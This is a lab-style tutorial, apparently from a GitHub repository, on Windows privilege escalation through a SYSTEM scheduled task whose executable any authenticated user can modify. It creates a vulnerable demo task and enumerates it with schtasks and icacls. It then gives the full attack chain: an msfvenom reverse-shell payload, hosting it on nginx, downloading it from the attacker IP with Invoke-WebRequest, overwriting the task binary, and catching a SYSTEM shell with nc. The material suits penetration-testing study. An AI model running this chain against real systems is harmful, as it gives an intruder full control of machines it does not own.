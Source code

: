 #Schedule Task - Windows Privilege Escalation

##1. Introduction to Windows Task Scheduler
Windows Task Scheduler is a built-in service that allows users to automate the execution of tasks at specified times or upon certain triggers. Administrators commonly use this feature for system maintenance, but attackers can also exploit it for persistence and privilege escalation.
An adversary can manipulate scheduled tasks to execute malicious code with elevated privileges. This attack vector is particularly useful when a task is configured to run with SYSTEM privileges but its executable is writable by a low-privileged user.
2. Abusing Scheduled Tasks for Privilege Escalation
By identifying a scheduled task that executes as SYSTEM, an attacker with write permissions to its executable can replace it with a malicious payload. The next time the task runs, the payload executes with SYSTEM privileges, providing full control over the compromised machine.
The attack process follows these steps:
Identify a scheduled task running with SYSTEM privileges.
Check if the current user has write or modify permissions on the task's executable file.
Replace the executable with a malicious payload.
Wait for the task to run and gain a SYSTEM shell.
3. Setting Up the Lab Environment
For this demonstration, we set up a Windows 10 victim machine and a Kali Linux attacker machine.
Attacker: Kali Linux (192.168.100.10) running Metasploit Framework
Victim: Windows 10 (192.168.1.11) with a scheduled task
Creating the Scheduled Task for demo
Create C:\Custom Tasks\Backup\Test.exe	
Run the following PowerShell script as an administrator on the victim machine:
$Action = New-ScheduledTaskAction -Execute "C:\Custom Tasks\Backup\Test.exe"

$Trigger1 = New-ScheduledTaskTrigger -AtLogOn
$Trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Hours 24)

$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal

Register-ScheduledTask -TaskName "BackupTaskDemo" -InputObject $Task -Force
Explanation of Each Part of the Script:
$Action → Executes the file "C:\Custom Task\Backup\Test.ext".
$Trigger1 → Activates when the user logs in.
$Trigger2 → Repeats every 5 minutes for 24 hours after initialization.
$Principal → Runs with SYSTEM privileges, without requiring a password, and executes with the highest privileges.
Register-ScheduledTask → Registers the task with the name "BackupTaskDemo".
________________________________________
✅ Deleting the Task After Completion
If you want to remove the task after 24 hours, you can use the following PowerShell command:
powershell
CopyEdit
Start-Sleep -Seconds 86400  # Wait for 24 hours
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false
Alternatively, you can include this in the main script for automatic removal.
________________________________________
✅ Manually Deleting the Task If Needed
If you need to delete the task immediately, use:
powershell
CopyEdit
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false


Before we dive into the enumeration of scheduled tasks, we need to understand our visibility as a standard user.
Unfortunately for us as the attacker, Microsoft does something pretty smart and only allows standard users to view scheduled tasks that belong to them. This means that any tasks we are interested in, such as those created by the administrator, we will not see when trying to query for them.
For example, if we use the following command with administrative permissions, we can query the scheduled task to find information about how it works:
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
 

This provides us with a lot of good information about the task. For starters, the task name is “BackupTaskDemo”. Additionally we can see that the task runs every five minutes and executes as SYSTEM.

 Let’s check if our user is any interesting groups.
net user Heaven 
 

Enumerating Folder Permissions

we can check our permissions on the folder using the built-in icacls command. 
First, we will see how we can use the icacls command to check the permissions of folder and file ACLs.
The permissions we are looking for on the Backup folder are any one of the following three permissions:
(F) Full Control
(M) Modify
(W) Write
The user / group permissions we are looking for are the following:
The user we are currently logged in as (%USERNAME%)
Authenticated Users
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
We want to check the permissions of both the Backup folder as well as the permissions on the executable itself. Starting with the folder since it is most likely that the file permissions will be inherited from the folder permissions. This is the default behaviour; however, there are times we can find that the folder is not writeable but the file is.
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\Test.exe"
	 
This shows that authenticated users have the ability to Modify files in the folder. Also, we can see an (I) indicating that the permissions were inherited, as expected. We also see that the Backup folder has inherited permissions, ultimately meaning that we have Modify permissions on the Custom Tasks folder and those permissions have been inherited to all sub folders and files.

Exploiting a Scheduled Task to get a SYSTEM Shell
Now that we have found a scheduled task, we need to craft our own malware to replace the legitimate task binary.

Using Metasploit to create payload	

On Kali Linux, open a terminal and generate a malicious executable:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.10 LPORT=4444 -a x64 --platform Windows -f exe -o payload.exe
Step 3: Send Payload through Nginx Server
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
Setting Up a Listener on Kali Linux
To capture the reverse shell, the attacker sets up a Metasploit listener:
nc -nvlp 4444
Downloading the payload on Windows:

Invoke-WebRequest -Uri "http://192.168.100.10/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

	
Lastly, we need to move our malicious version of payload.exe into the C:\Custom Tasks\Backup folder.
Replacing the Original Executable


Copy-Item -Path "C:\Windows\Temp\payload.exe" -Destination "C:\Custom Tasks\Backup\Test.exe" -Force
	
when we check our listener, we have a SYSTEM shell!


	 


 
 
